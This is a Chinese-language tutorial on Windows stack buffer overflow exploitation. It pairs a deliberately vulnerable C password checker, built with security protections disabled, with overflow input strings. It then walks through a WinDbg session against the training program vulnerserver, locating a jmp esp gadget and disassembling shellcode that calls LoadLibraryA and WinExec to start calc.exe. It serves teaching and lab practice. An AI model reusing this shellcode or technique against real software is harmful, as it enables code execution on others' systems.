栈溢出利用
========================================

栈溢出
----------------------------------------

示例代码
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

::

	#include"stdafx.h"
	#include<Windows.h>

	#define PASSWORFD "1234567"

	int verify_password(char *password)
	{
		int authenticated;
		char buffer[44];
		authenticated = strcmp(PASSWORFD, password);
		strcpy(buffer, password);
		return authenticated;
	}

	int main(int argc, char* argv[])
	{
		
		if (argc > 1)
		{
			int valid_flag = 0;
			char password[1024];
			FILE *fp;
			LoadLibrary("user32.dll");
			if (!(fp = fopen(argv[1], "r")))
			{
				printf("password.txt open failed");
				exit(0);
			}
			fscanf(fp, "%s", password);
			valid_flag = verify_password(password);
			if (valid_flag)
				printf("incorrect password!\n");
			else
			{
				printf("Congratulation!You have passed the verification!");
			}
			fclose(fp);
		}
		else
			printf("main argu error!");
		return 0;
	}

编译环境：
 | IDE：Visual Studio 2015，release
 | 编译选项：
 | 字符集：使用多字节字符集
 | c/c++->优化->优化：已禁用
 | c/c++->优化->启用内部函数：否
 | c/c++->优化->全程序优化：否
 | c/c++->预处理器->预处理定义：_CRT_SECURE_NO_WARNINGS（或禁用SDL）
 | c/c++->代码生成->安全检查：禁用安全检查（/GS-）
 | 链接器->高级->数据执行保护(DEP)-否
 | 链接器->高级->随机基址-否
 | 附件：`stackvuln.zip <..//_static//stackvuln.zip>`_

运行堆栈
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 | **运行环境** ：Microsoft Windows 7 旗舰版 6.1.7601 Service Pack 1 Build 7601 64位
 | **poc** :

	::
		
		0321432143214321432143214321432143214321432143214321432143214321
		4321432143214321432143214321432143214321432143214321432143214321
		432143214321

 **溢出发生前** ：
	|stack4|
 **溢出发生后** ：
	|stack5|
 **EIP崩溃** ：
	|stack6|

POC
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 绕过验证
	**poc** ：
	::

		03214321432143214321432143214321432143214321

	**溢出发生前** ：
	|stack7|
	**溢出发生后** ：
	|stack8|
	**验证通过** ：
	|stack9|

- 代码植入
	**原理图** ：
	|stack10|
	**poc** ：
	|stack11|
	|stack15|

	**溢出发生前** ：
	|stack12|
	**溢出发生后** ：
	|stack13|
	**运行** ：
	|stack14|

实战示例
----------------------------------------

示例程序
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `vulnserver <https://github.com/stephenbradshaw/vulnserver>`_

运行环境
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Microsoft Windows 7 旗舰版 6.1.7601 Service Pack 1 Build 7601（32位）

FUZZ测试
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `boofuzz-vulnserver1 <..//_static//boofuzz-vulnserver1.py>`_
	通过以上脚本可使服务器程序崩溃，即POC。
- `boofuzz-vulnserver2 <..//_static//boofuzz-vulnserver2.py>`_
	通过以上脚本测试崩溃数据位置以及EXP代码。

EXP过程
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- windbg设置为JIT调试器
- 调试过程

	::

		Microsoft (R) Windows Debugger Version 6.12.0002.633 X86
		Copyright (c) Microsoft Corporation. All rights reserved.

		*** wait with pending attach
		Symbol search path is: srv*c:\symbols*http://msdl.microsoft.com/download/symbols
		Executable search path is: 
		ModLoad: 00400000 00407000   C:\Users\Administrator\Desktop\vulnserver.exe
		ModLoad: 77210000 7734c000   C:\Windows\SYSTEM32\ntdll.dll
		ModLoad: 756d0000 757a4000   C:\Windows\system32\kernel32.dll
		ModLoad: 75560000 755aa000   C:\Windows\system32\KERNELBASE.dll
		ModLoad: 62500000 62508000   C:\Users\Administrator\Desktop\essfunc.dll
		ModLoad: 76760000 7680c000   C:\Windows\system32\msvcrt.dll
		ModLoad: 76e60000 76e95000   C:\Windows\system32\WS2_32.DLL
		ModLoad: 76c10000 76cb1000   C:\Windows\system32\RPCRT4.dll
		ModLoad: 77430000 77436000   C:\Windows\system32\NSI.dll
		ModLoad: 74da0000 74ddc000   C:\Windows\system32\mswsock.dll
		ModLoad: 76d60000 76e29000   C:\Windows\system32\user32.dll
		ModLoad: 75680000 756ce000   C:\Windows\system32\GDI32.dll
		ModLoad: 77350000 7735a000   C:\Windows\system32\LPK.dll
		ModLoad: 76cc0000 76d5d000   C:\Windows\system32\USP10.dll
		ModLoad: 76e30000 76e4f000   C:\Windows\system32\IMM32.DLL
		ModLoad: 77360000 7742c000   C:\Windows\system32\MSCTF.dll
		ModLoad: 74610000 74615000   C:\Windows\System32\wshtcpip.dll
		ModLoad: 75260000 752ac000   C:\Windows\system32\apphelp.dll
		(6d4c.76a8): Access violation - code c0000005 (!!! second chance !!!)
		eax=0174f200 ebx=0000005c ecx=006751ec edx=00000000 esi=00000000 edi=00000000
		eip=017ff9e0 esp=0174f9e0 ebp=eeffee42 iopl=0         nv up ei pl zr na pe nc
		cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010246
		017ff9e0 ??              ???
		0:001> kb
		ChildEBP RetAddr  Args to Child              
		WARNING: Frame IP not in any known module. Following frames may be wrong.
		0174f9dc b850c033 64453278 b8506c6c 32336c65 0x17ff9e0
		0174fa30 772669a7 002c2518 00000000 77265dd3 0xb850c033
		0174fb14 77265ae0 00000208 00000210 002c2512 ntdll!RtlpAllocateHeap+0xc78
		0174fb88 00000000 00000000 00000000 00000000 ntdll!RtlAllocateHeap+0x23a
		0:001> dd esp- 0x20
		0174f9c0  41414141 41414141 42424241 42424242
		0174f9d0  42424242 42424242 eeffee42 017ff9e0
		0174f9e0  b850c033 64453278 b8506c6c 32336c65
		0174f9f0  656bb850 8b506e72 7bb850c4 ff7c801d
		0174fa00  50c033d0 2e0909b8 50657865 6c6163b8
		0174fa10  c48b5063 b850056a 7c8623ad c033d0ff
		0174fa20  cafab850 d0ff7c81 0174fb00 006749c0
		0174fa30  00000042 772669a7 002c2518 00000000
		多次执行程序发现，017ff9dc的堆栈位置不固定，导致无法017ff9dc(017ff9e0)数据无法确定，
		即存在ASLR，我们使用EMET来禁用ASLR。
		不知道为什么，禁用了ASLR之后，堆栈的地址还是不固定，那么我们需要将0174f9dC（017ff9e0）填充为僵尸地址。
		并且，堆栈恢复之后，esp指向了017ff9e0地址,即shellcode地址。
		那么我们可以在kernel32或ntdll中查找jmp esp (ffe4) 或者 call esp (ffd4) 的指令的地址，填充到017ff9dc。
		0:001> lm
		start    end        module name
		00400000 00407000   vulnserver   (deferred)             
		0dce0000 0dd2a000   KERNELBASE   (deferred)             
		3fd20000 3fd25000   wshtcpip   (deferred)             
		40160000 40166000   NSI        (deferred)             
		402c0000 402ca000   LPK        (deferred)             
		41840000 4185f000   IMM32      (deferred)             
		41ac0000 41af5000   WS2_32     (deferred)             
		62500000 62508000   essfunc    (deferred)             
		6c880000 6c8bc000   mswsock    (deferred)             
		6f000000 6f04c000   apphelp    (deferred)             
		6f8e0000 6f97d000   USP10      (deferred)             
		6ff50000 6fffc000   msvcrt     (deferred)             
		70990000 70a5c000   MSCTF      (deferred)             
		77b60000 77bae000   GDI32      (deferred)             
		77bb0000 77c51000   RPCRT4     (deferred)             
		77d10000 77dd9000   user32     (deferred)             
		77de0000 77eb4000   kernel32   (deferred)             
		77ec0000 77ffc000   ntdll      (pdb symbols)          c:\symbols\ntdll.pdb\120028FA453F4CD5A6A404EC37396A582\ntdll.pdb
		
		77D34E5B    FFE4            jmp     esp
		
		0:001> x kernel32!LoadLibraryA
		77e3395c kernel32!LoadLibraryA = <no type information>
		0:001> x kernel32!0:001> x kernel32!WinExec
		77e6e5fd kernel32!WinExec = <no type information>
		
		shellcode如下：
		0172fa2b 90              nop
		0172fa2c 90              nop
		0172fa2d 90              nop
		0172fa2e 90              nop
		0172fa2f 90              nop
		0172fa30 33c0            xor     eax,eax
		0172fa32 50              push    eax
		0172fa33 b82e646c6c      mov     eax,6C6C642Eh
		0172fa38 50              push    eax
		0172fa39 b8656c3332      mov     eax,32336C65h
		0172fa3e 50              push    eax
		0172fa3f b86b65726e      mov     eax,6E72656Bh
		0172fa44 50              push    eax
		0172fa45 8bc4            mov     eax,esp
		0172fa47 50              push    eax
		0172fa48 b85c39e377      mov     eax,offset kernel32!LoadLibraryA (77e3395c)
		0172fa4d ffd0            call    eax
		0172fa4f 33c0            xor     eax,eax
		0172fa51 50              push    eax
		0172fa52 b82e657865      mov     eax,6578652Eh
		0172fa57 50              push    eax
		0172fa58 b863616c63      mov     eax,636C6163h
		0172fa5d 50              push    eax
		0172fa5e 8bc4            mov     eax,esp
		0172fa60 6a05            push    5
		0172fa62 50              push    eax
		0172fa63 b8fde5e677      mov     eax,offset kernel32!WinExec (77e6e5fd)
		0172fa68 ffd0            call    eax
		0172fa6a 33c0            xor     eax,eax
		0172fa6c 50              push    eax
		0172fa6d b8faca817c      mov     eax,7C81CAFAh
		0172fa72 ffd0            call    eax
		0172fa74 90              nop
		0172fa75 90              nop
		0172fa76 90              nop
		0172fa77 90              nop
		0172fa78 90              nop

	|stack16|













